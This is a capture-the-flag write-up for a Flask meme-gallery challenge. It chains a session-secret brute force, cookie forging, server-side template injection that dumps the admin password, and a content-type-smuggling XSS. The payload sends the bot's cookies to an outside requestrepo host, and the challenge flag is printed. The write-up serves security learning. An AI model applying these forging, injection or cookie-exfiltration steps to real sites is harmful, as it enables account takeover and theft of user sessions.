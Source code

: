 #python #flask #bruteforce #mime #xss 
# Snake24 - Meme Gallery
## Description
Share your favorite memes with the admins.
## Overview
It's a simple website that shows meme, and allows to register for uploading new ones.
There's a bot that opens submitted memes.
## Road to flag
The flag is in the bot's cookies:
```js
await page.setCookie({
	name: "FLAG",
	value: process.env.FLAG,
});
```
-> XSS
## Exploitation
1. Flask cookie secret bruteforce
```
flask-unsign -u -c ".eJyrViotTi1SslKqjlHKTIlRslIw1lGIAQvmJeamggRilBJTcjPzqmKUQDIFicXF5flFKVAZ
AiBGqVapFgBbhyF6.Zty9uw.D6SMBvdW64_svU-RcUNadr_DDYY" -w ~/Desktop/SecLists/Assetnote/rockyou.txt --
no-literal-eval
[*] Session decodes to: {'user': '{"id": 3, "username": "adminz", "password": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 171264 attemptsideo
b'ilovememe'
```
Despite having the secret, It's not possible to forge a cookie for the admin user because the password has to be known:
```python
def token_required(f):
    @wraps(f)
    def decorated(*args, **kwargs):
        try:
            if not session.get("user"):
                return {"error": "Unauthorized"}, 302, {"Location": "/login"}
            logged_user = json.loads(session.get("user"), cls=UserDecoder)
            db = AppDataStorage(DB_FILE, OS_ADDRESS)
            res = db.find_user(logged_user.name)
            if res is None or res[2] != logged_user.password:
                return (
                    {"error": "Invalid token"},
                    500,
                    {"Set-Cookie": "session=;Max-Age=0;"},
                )
        except json.JSONDecodeError as e:
            session.pop("user", default=None)
            return {"error": str(e)}, 500, {"Set-Cookie": "session=;Max-Age=0;"}

        return f(logged_user, *args, **kwargs)

    return decorated
```
2. SSTI
But it's possible to forge cookies with arbitrary ids. `/user` is vulnerable to SSTI via the id field:
```python
@blueprint.route("/user", methods=["GET"])
@token_required
def user_info(user):
    return render_template_string(f"uid={user.id}({{{{name}}}})", name=user.name), 200
```
Forging the token:
```
flask-unsign -s -S "ilovememe" -c "{'user': '{\"id\":\"{{config}}\",\"username\":\"sebbb\",\"password\": \"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\"}'}"
```
Dumped config:
```
'ADMIN_USERNAME': 'admin', 'ADMIN_PASSWORD': 'hNm9Hyt#qD%E2Eh5CLeYNDASF@5X*#b$'
```
Forging admin token:
```
flask-unsign -s -S "ilovememe" -c "{'user': '{\"id\":\"0\",\"username\":\"admin\",\"password\": \"hNm9Hyt#qD%E2Eh5CLeYNDASF@5X*#b$\"}'}"
```
3. XSS
Report to admin route:
```python
@blueprint.route("/list/<meme>/maketheadminlaugh", methods=["GET"])
@token_required
@with_db
def report(db, user, meme):
    bucket = "supermemes"

    found = db.meme_bucket(meme)
    if found is None:
        return {"error": "Nonexistent meme is the new meme"}, 404
    if found != bucket:
        return {"error": "I'm not interested in this naive memes"}, 400
    res = requests.post(
        BOT_ADDRESS,
        data={"url": f"{current_app.config['APP_ADDRESS']}/get/{quote_plus(meme)}"}, #! potential traversal
    )

    if res.status_code == 200:
        return {"message": res.text}, 200

    return {"error": "Im ded x("}, res.status_code
```
The bot will open the uploaded image, so the only way to get XSS is by smuggling a mimetype that lets execute JS.
It's possible to return multiple [content-types](https://github.com/BlackFan/content-type-research/blob/master/XSS.md#response-content-type-tricks), so by uploading this:
```
Content-Disposition: form-data; name="file"; filename="xss.png"
Content-Type: image/png;,text/html

<script>
location = "//g106vnrl.requestrepo.com/?c"+document.cookie;
</script>
```
The 'image' will pass the checks and when sent to the bot the XSS will be executed.

`snakeCTF{w0w_7H1s_m3M3_R0ckS!!_528f2e8d95116437}`